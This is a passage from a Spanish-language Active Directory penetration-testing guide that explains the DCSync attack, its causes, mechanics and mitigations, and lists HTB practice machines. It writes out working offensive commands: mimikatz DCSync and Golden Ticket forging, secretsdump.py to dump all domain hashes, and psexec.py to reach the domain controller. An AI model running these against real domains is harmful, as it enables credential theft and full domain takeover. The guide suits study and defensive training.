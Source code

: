 ### Máquinas HTB para practicar
- **Multimaster** (Medium) - NTLM relay clásico
- **ServMon** (Easy) - Relay combinado con servicio vulnerable

---

## 5. DCSync

### ¿Por qué ocurre?
- **Permisos de replicación:** Cuentas con derechos para replicar directorio
- **Confianza excesiva:** Múltiples cuentas con privilegios de replicación
- **Falta de segregación:** Demasiados usuarios en grupos privilegiados

### Mecánica del ataque
1. **Comprometer cuenta** con permisos Replicating Directory Changes
2. **Simular DC** y solicitar replicación de datos
3. **Recibir hashes** de todos los usuarios del dominio
4. **Golden Ticket** con hashes obtenidos

### Sistemas afectados
- **Domain Controllers** (fuente de datos)
- **Cuentas con permisos** DCSync
- **Totalmente funcional** en todos los entornos AD

### Detección y Explotación
**Localización:**
```bash
# BloodHound para encontrar permisos DCSync
MATCH (u:User)-[:MemberOf|:HasSession*1..]->(g:Group {name: "DOMAIN ADMINS@DOMAIN.COM"}) RETURN u

# PowerView
Get-ObjectAcl -Identity "DC=dominio,DC=com" | ? {$_.ActiveDirectoryRights -like "*Replicating*"}

# Verificar privilegios actuales
 mimikatz # lsadump::dcsync /user:dominio\krbtgt
```

**Explotación:**
```bash
# 1. DCSync para obtener hashes
secretsdump.py -just-dc dominio.com/usuario_privilegiado:password@DC_IP

# 2. Golden Ticket con krbtgt hash
 mimikatz # kerberos::golden /user:Administrator /domain:dominio.com /sid:S-1-5-21-... /krbtgt:KRBTGT_HASH /ptt

# 3. Acceso a DC
psexec.py dominio.com/Administrator@DC_IP -k -no-pass
```

### Prevención/Mitigación
- **Principio de mínimo privilegio** para replicación
- **Cuentas dedicadas** solo para replicación si es necesario
- **Monitoreo:** Eventos 4662 (replication requests)
- **Auditar** membresía de grupos privilegiados regularmente
- **Protected Users Group** para cuentas críticas
